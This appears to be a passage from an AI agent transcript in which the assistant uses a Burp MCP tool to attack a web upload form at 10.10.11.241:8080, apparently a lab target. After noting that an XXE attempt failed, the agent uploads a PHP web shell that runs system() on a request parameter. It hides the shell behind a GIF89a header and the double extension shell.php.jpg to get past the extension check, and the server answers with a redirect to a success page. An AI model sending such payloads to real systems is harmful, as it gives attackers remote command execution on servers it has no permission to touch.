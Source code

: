 Let's try a different approach. Let's try to exploit potential vulnerabilities in the upload functionality itself. Let's try to upload a file with a double extension, like shell.php.jpg, to see if the server only checks the last extension:
</thinking>

The XXE attack didn't work as expected. Let's try a different approach by uploading a file with a double extension to see if the server only checks the last extension.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 324\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.php.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:40:52 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8


<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:54 PM (America/New_York, UTC-4:00)
